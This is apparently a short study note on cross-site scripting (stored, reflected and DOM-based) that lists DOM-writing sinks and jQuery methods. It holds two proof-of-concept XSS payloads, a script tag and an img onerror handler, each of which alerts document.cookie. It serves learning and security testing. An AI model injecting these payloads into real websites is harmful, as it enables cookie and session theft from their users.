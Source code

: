 ___
# Stored & Reflected

```html
<script>alert(document.cookie)</script>
```

![[Pasted image 20240927172636.png]]

![[Pasted image 20240927172309.png]]

# DOM 

Some of the commonly used JavaScript functions to write to DOM objects are:

- `document.write()`
- `DOM.innerHTML`
- `DOM.outerHTML`

Furthermore, some of the `jQuery` library functions that write to DOM objects are:

- `add()`
- `after()`
- `append()`

```html
<img src="" onerror=alert(document.cookie)>
```



